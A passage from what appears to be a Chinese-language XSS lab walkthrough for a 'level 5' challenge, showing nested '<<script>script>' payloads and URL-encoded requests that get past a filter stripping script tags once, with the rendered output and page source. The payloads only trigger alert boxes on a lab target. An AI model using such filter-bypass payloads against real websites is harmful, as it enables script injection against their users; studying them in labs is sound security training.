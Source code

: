 那么，就要构造出多余的属性，来尝试绕过。

```
http://target_sys.com/xss/xss05.php?name=huan%3Cscript%3Escript%3Ealert(%22xss%22)%3C/script%3E/script%3E
```

得到结果如下

```
level 5
我的名字是 huanscript>alert("xss")/script>
```

可以看到上面的示例是把`<`过滤掉了，只留下`script>`，那么可以继续构造payload

```
<<script>script>alert("xss")</script>/script>
```

```
http://target_sys.com/xss/xss05.php?name=huan%3C%3Cscript%3Escript%3Ealert(%22xss%22)%3C/script%3E/script%3E
```

看到结果如下：

```
level 5
我的名字是 huan
```

发现有点不同，连`alert`都没有了，查看网页源码

```html
<html>
<head>
	 <meta charset="UTF-8">
	 <title>level 5</title>
<style type="text/css">
.main{	
}
</style>
</head>

<body>
<h3>level 5</h3>
<div class='main'>
我的名字是 huan<script>alert("xss")/script></div>
</body>
</html>
```

看起来离成功还差一步，继续如法炮制。

```
<<script>script>alert("xss")<</script>/script>
```

```
http://target_sys.com/xss/xss05.php?name=huan%3C%3Cscript%3Escript%3Ealert(%22xss%22)%3C%3C/script%3E/script%3E
```
